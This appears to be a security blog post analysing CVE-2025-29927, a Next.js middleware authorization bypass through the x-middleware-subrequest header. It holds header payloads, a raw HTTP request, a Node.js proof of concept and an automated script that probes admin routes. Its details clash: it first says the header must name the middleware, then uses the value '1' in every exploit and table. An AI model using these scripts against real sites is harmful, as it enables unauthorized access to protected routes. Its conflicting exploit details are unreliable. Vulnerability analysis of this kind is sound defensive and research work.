 ```yaml
---
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
layout: post
tags: [Next.js, CVE-2025-29927, middleware, authorization bypass, security, pentesting, red-team, web-security, Node.js, exploit, hacking, cybersecurity]
image: /assets/images/next.jpg

---
```


# CVE-2025-29927: Next.js Middleware Authorization Bypass – Deep Technical Analysis

CVE-2025-29927 is a critical security vulnerability in the Next.js framework. This issue arises from the improper handling of the `x-middleware-subrequest` header. This header plays a key role in Next.js middleware execution, and its misuse can bypass authorization checks.

---

## 1️⃣ Role of `x-middleware-subrequest` Header

Next.js uses the `x-middleware-subrequest` header to determine whether a request is an internal subrequest. This header is designed to prevent infinite middleware loops. However, incorrect handling allows external requests to bypass middleware checks.

---

## 2️⃣ Technical Mechanism of the Vulnerability

```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  };
  continue;
}
```

This code reads the `x-middleware-subrequest` header, splits it into an array, and if it contains `middlewareInfo.name`, the middleware is skipped, allowing external requests to bypass authorization.

---

## 3️⃣ Exploit Methods Across Next.js Versions

### 📌 Version 12.2 and Earlier

Middleware files are named `_middleware.ts` and reside in the `pages` folder. The `middlewareInfo.name` is the combination of directory and file name.

```javascript
x-middleware-subrequest: pages/_middleware
```

Setting this header externally can skip middleware checks.

### 📌 Version 12.2 and Later

Middleware files are `middleware.ts`. The `middlewareInfo.name` is just the file name.

```javascript
x-middleware-subrequest: middleware
```

Correctly setting this header still bypasses middleware.

### 📌 Version 13.2.0 and Later

Next.js enforces `MAX_RECURSION_DEPTH` to prevent infinite loops, but misuse of `x-middleware-subrequest` remains exploitable.

```javascript
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

---


<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js?client=ca-pub-9166422523496420"
     crossorigin="anonymous"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-9166422523496420"
     data-ad-slot="8932006521"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

## 4️⃣ Exploit Scenario

```http
GET /admin HTTP/1.1
Host: vulnerable-app.local
x-middleware-subrequest: 1
```

This request bypasses middleware and allows unauthorized access to routes like `/admin`.

### Node.js PoC

```javascript
import fetch from 'node-fetch';

async function exploit() {
    const res = await fetch('http://localhost:3000/admin', {
        headers: { 'x-middleware-subrequest': '1' }
    });
    const body = await res.text();

    if (body.includes('Admin Panel')) {
        console.log('[+] Bypass Successful!');
    } else {
        console.log('[-] Middleware blocking access.');
    }
}

exploit();
```

---

## 5️⃣ JWT / Cookie Combinations

Some projects combine middleware with cookie or JWT role checks:

```javascript
if (!req.cookies.auth_token && req.headers['x-middleware-subrequest'] !== '1') {
    return NextResponse.redirect('/login');
}
```

Adding the header allows access without token or JWT.

---

## 6️⃣ Header Manipulation Scenarios

| Scenario      | Header                                    | Result             |
| ------------- | ----------------------------------------- | ------------------ |
| Simple bypass | x-middleware-subrequest: 1                | Middleware skipped |
| JWT bypass    | x-middleware-subrequest: 1 + missing JWT  | Role check bypass  |
| Cookie bypass | x-middleware-subrequest: 1 + empty cookie | Auth bypass        |

---

## 7️⃣ Automated Test Script (Red-Team Style)

```javascript
import fetch from 'node-fetch';

const routes = ['/admin', '/dashboard', '/settings'];

async function testBypass() {
    for (const route of routes) {
        const res = await fetch(`http://localhost:3000${route}`, {
            headers: { 'x-middleware-subrequest': '1' }
        });
        console.log(`${route}: ${res.status}`);
    }
}

testBypass();
```

This script tests all protected routes automatically to quickly identify which can be bypassed.

---

## 8️⃣ Hacker Perspective

* Auth checks in middleware can be bypassed via header manipulation.
* JWT or cookie combinations can optimize bypass.
* Red-team testing involves code-based exploits and response analysis.
* Summary: `x-middleware-subrequest` = primary exploit entry point.
<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="https://twitter.com/intent/tweet?text=CVE-2025-29927: Next.js Middleware Authorization Bypass&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=CVE-2025-29927: Next.js Middleware Authorization Bypass" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->


## 📺 Video Demonstration

<iframe width="100%" height="500" 
src="https://www.youtube.com/embed/S3CVytIv098" 
title="Next.js Middleware Bypass CVE-2025-29927" 
frameborder="0" 
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
allowfullscreen></iframe>


